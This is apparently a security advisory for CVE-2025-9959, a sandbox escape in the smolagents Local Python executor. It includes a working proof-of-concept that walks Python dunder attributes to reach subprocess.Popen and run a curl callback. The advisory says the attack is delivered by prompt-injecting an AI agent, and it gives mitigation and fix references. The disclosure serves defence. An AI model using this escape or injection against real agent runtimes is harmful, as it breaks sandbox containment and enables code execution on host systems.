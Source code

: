 ```yaml
---
description: CVE-2025-9959, HIGH, Sandbox escape in smolagents Local Python execution environment via dunder attributes
title: Smolagents Local Python Sandbox Escape
date_published: "2025-09-03"
last_updated: "2025-09-03"
xray_id: JFSA-2025-001434277
vul_id: CVE-2025-9959
cvss: 7.6
severity: high
discovered_by: Natan Nehorai
type: vulnerability

---
```


## Summary

Sandbox escape in smolagents Local Python execution environment via dunder attributes

## Component

smolagents

## Affected versions

(,1.21.0)

## Description

Incomplete validation of dunder attributes allows an attacker to escape from the Local Python execution environment sandbox, enforced by smolagents. The attack requires a Prompt Injection in order to trick the agent to create malicious code.

## PoC

```python
from smolagents.local_python_executor import LocalPythonExecutor
custom_executor = LocalPythonExecutor([])
custom_executor.send_tools({})

def run_capture_exception(command: str):
	try:
		custom_executor(harmful_command)
		print("passed: " + harmful_command)
		return 1
	except Exception as e:
		print("ERROR:\n", e)
		return 0
  
EVIL_PROMPT="""
#create a dummy function - will pass all check as it does nothing
def just_a_func():
pass
#this will yield <class 'function'>
function_class = just_a_func.__getattribute__('__class__')
#this will yield (<class 'object'>,)
bases_attribute = type.__getattribute__(function_class, '__bases__')
#this script if for locating the "subprocess.Popen" class among the
class list - for each runtime it could be different
num = 0
for i in bases_attribute[0].__subclasses__():
#found the "subprocess.Popen" class - use and run it
if 'subprocess.Popen' in str(i):
runpopen = bases_attribute[0].__subclasses__()[num](['curl',
'http://localhost:1337/pwned'])

stdout, stderr = runpopen.communicate()
num += 1
"""

run_capture_exception(EVIL_PROMPT)
```



## Vulnerability Mitigations

When creating a smolagents `CodeAgent`, do not use the Local Python execution environment. For example, the `wasm` executor can be used -

```
agent = CodeAgent(tools=[], model=model, add_base_tools=False,
additional_authorized_imports=[],executor_type='wasm')
```



## References

[Fix commit](https://github.com/huggingface/smolagents/pull/1551)

